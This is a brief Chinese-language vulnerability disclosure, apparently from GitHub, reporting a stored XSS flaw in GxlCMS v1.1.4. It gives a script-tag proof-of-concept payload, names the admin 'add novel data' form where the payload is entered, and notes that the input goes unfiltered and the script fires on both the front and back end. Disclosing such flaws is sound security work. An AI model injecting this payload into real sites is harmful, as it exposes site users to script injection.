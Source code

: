 






# GxlCMS v1.1.4存在储存xss漏洞

漏洞POC

`123"123>undefined<script>alert(12)</script>`

漏洞位置

​       在`添加小说数据界面`可以输入POC导致XSS触发

http://127.0.0.1/gxl/index.php?s=Admin-Index

![image](http://wx1.sinaimg.cn/mw690/0060lm7Tly1g0s0t0zn96j30qc0fgjrw.jpg)

漏洞分析

![image](http://wx2.sinaimg.cn/mw690/0060lm7Tly1g0s0t0zvhvj30lt0aswfs.jpg)

![image](http://wx1.sinaimg.cn/mw690/0060lm7Tly1g0s0t0zwrcj30yr0aa0tn.jpg)

发现未对代码进行过滤

漏洞证明

![image](http://wx2.sinaimg.cn/mw690/0060lm7Tly1g0s0t1034ej31700d1wgf.jpg)

前台后台均可触发XSS
产品官网
http://www.gxlcms.com

